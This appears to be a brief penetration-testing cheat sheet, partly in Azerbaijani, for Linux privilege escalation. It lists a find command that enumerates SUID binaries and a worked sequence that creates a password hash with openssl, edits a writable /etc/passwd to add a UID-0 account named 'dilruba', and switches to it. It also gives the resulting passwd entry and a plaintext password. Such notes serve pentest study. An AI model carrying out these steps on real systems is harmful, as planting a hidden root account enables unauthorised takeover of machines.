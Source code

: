 ## SHOWING SUID
    find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
Yaratma qaydası

    user7@polobox:/$ openssl passwd -1
    Password:
    Verifying - Password:
    $1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
    user7@polobox:/$ ^C
    user7@polobox:/$ nano /etc/passwd
    user7@polobox:/$ su dilruba

  Nəticə

    dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
    passwd----dil1123
